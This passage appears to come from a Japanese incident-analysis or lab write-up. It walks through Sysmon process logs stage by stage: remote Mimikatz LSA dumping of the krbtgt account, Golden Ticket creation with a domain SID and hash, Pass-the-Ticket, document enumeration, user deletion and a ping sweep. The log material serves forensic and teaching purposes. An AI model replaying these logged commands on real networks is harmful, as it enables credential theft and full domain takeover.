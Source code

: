 ```
2019/11/07 15:34:29,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: at.exe  \\win-wfbhibe5gxz 15:37 cmd /c ""C:\Windows\Temp\mz.exe ""privilege::debug"" ""lsadump::lsa /inject /name:krbtgt"" exit > C:\Windows\Temp\o.txt""

2019/11/07 15:34:29,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: \??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1  

2019/11/07 15:34:29,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\b.bat""
```
4. lsaダンプの回収
```
,2019/11/07 15:37:59,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""copy J:\Windows\Temp\o.txt C:\Intel\Logs\o.txt""
```

#### ⑧ ゴールデンチケットの作成
```
,2019/11/07 15:38:26,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\mz.exe ""kerberos::golden /domain:example.co.jp /sid:S-1-5-21-1524084746-3249201829-3114449661 /rc4:b23a3443a12bf736973741f65ddcbc83 /user:sysg.admin /id:500 /ticket:C:\Intel\Logs\500.kirbi"" exit""
```

#### ⑨ PtTとファイル収集、ユーザの削除
1. Pass the Ticketの実行
```
,2019/11/07 15:39:27,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""C:\Intel\Logs\mz.exe ""kerberos::ptt C:\Intel\Logs\500.kirbi"" exit""
```
2. ドキュメントファイル等の収集
```
2019/11/07 15:39:57,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""dir C:\Users\*.doc* /s /o-d > C:\Intel\Logs\r.txt""
```
3. machida.kanagawaの削除
```
,2019/11/07 15:40:21,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""net user machida.kanagawa /delete"
```

#### ⑩ ネットワークの偵察
```
,2019/11/07 15:42:14,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""ping 192.168.16.103""

,2019/11/07 15:41:24,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""ping 192.168.16.101""

,2019/11/07 15:41:42,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
CommandLine: cmd /c ""ping 192.168.16.102""

,2019/11/07 15:42:35,Microsoft-Windows-Sysmon,1,Process Create (rule: ProcessCreate),"Process Create:
```